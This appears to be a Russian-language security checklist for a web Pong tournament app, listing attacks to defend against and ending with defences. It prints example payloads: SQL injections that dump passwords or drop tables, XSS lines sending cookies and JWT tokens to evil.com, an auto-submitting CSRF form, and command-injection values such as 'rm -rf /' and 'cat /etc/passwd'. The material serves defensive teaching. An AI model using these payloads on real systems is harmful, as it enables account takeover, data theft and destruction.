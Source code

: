 

### Список атак, от которых нужно защищаться
1. **SQL-инъекции**:
   - Классическая SQL-инъекция через формы и API.
   - Слепая SQL-инъекция.
   - Инъекция через поиск, фильтры или турнирные данные.
   - Инъекция через API-запросы (модули Server-Side Pong, CLI).
2. **XSS (межсайтовый скриптинг)**:
   - Отраженный XSS через URL или параметры.
   - Хранимый XSS через профили, чат, имена турниров, аватары.
   - DOM-based XSS через TypeScript SPA.
   - XSS через API-ответы или кастомизацию игры.
3. **Связанные атаки**:
   - CSRF для подделки действий пользователя.
   - Небезопасная обработка ввода (формы, API, CLI, чат).
   - Атаки на API (манипуляция запросами).
   - Атаки на блокчейн (внедрение вредоносных данных).
   - Атаки на сессии (кража куки или JWT через XSS).
   - Атаки на чат (спам, вредоносные ссылки).
   - Атаки через CLI (инъекции в API).

---


#### **1. SQL-инъекции**  
**Классическая SQL-инъекция**  
```sql
-- Ввод в поле логина: ' OR '1'='1
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '...';
```
**Слепая SQL-инъекция**  
```sql
-- Ввод: ' AND (SELECT 1 FROM users WHERE username='admin' AND SUBSTRING(password,1,1)='a')--
SELECT * FROM tournaments WHERE id = '1' AND (SELECT 1 FROM users WHERE username='admin' AND SUBSTRING(password,1,1)='a')--';
```
**Инъекция через поиск/фильтры**  
```sql
-- Ввод в поиск: ' UNION SELECT username, password FROM users--
SELECT * FROM games WHERE name LIKE '%' UNION SELECT username, password FROM users--%';
```
**Инъекция через API (Server-Side Pong)**  
```http
GET /api/game?id=1; DROP TABLE scores--
```

---

#### **2. XSS (межсайтовый скриптинг)**  
**Отраженный XSS (через URL)**  
```http
https://example.com/search?q=<script>alert('XSS')</script>
```
**Хранимый XSS (чат, профиль)**  
```javascript
// Ввод в чат:
<img src=x onerror="fetch('/steal-cookie?cookie='+document.cookie)">
```
**DOM-based XSS (SPA-приложение)**  
```javascript
// Ввод в поле:
"><svg onload="location.href='https://evil.com?data='+localStorage.token">
```
**XSS через API (кастомизация игры)**  
```json
{
  "gameSettings": "<script>alert('XSS')</script>"
}
```

---

#### **3. Связанные атаки**  
**CSRF (подделка действий)**  
```html
<!-- На другом сайте: -->
<form action="https://your-site.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="hacker">
</form>
<script>document.forms[0].submit();</script>
```
**Небезопасная обработка ввода (CLI)**  
```bash
# Ввод в CLI:
game --join-tournament '1; rm -rf /'
```
**Атака на API (манипуляция запросами)**  
```http
PATCH /api/user/1 HTTP/1.1
{"role": "admin"}
```
**Атака на блокчейн (вредоносный контракт)**  
```solidity
// Ввод в смарт-контракт:
function withdraw() public {
    payable(msg.sender).transfer(address(this).balance);
}
```
**Кража сессии (через XSS)**  
```javascript
// Вставка в чат:
fetch('https://evil.com/log?token=' + localStorage.getItem('jwt'));
```
**Спам/фишинг в чате**  
```
Привет! Перейди по ссылке: http://fake-login.com?site=yoursite.com
```
**Атака через CLI (инъекция в API)**  
```bash
curl -X POST "https://api.example.com/game" -d '{"command":"start; cat /etc/passwd"}'
```

---

### **Вывод**  
Эти примеры показывают, как злоумышленник может эксплуатировать уязвимости.  
**Защита:**  
- **SQL-инъекции** → Параметризованные запросы, ORM.  
- **XSS** → Экранирование, CSP, `DOMPurify`.  
- **CSRF** → Токены, проверка `Origin`.  
- **CLI/API-атаки** → Валидация ввода, санитизация.  
- **Блокчейн** → Аудит смарт-контрактов.  
- **Чат** → Фильтрация HTML, ограничение ссылок.  

💥☄️ 💥☄️ 💥☄️ Минимизировать использование `eval()`, `innerHTML`, конкатенации SQL и сырых API-запросов!!!!!! 💥☄️ 💥☄️ 💥☄️
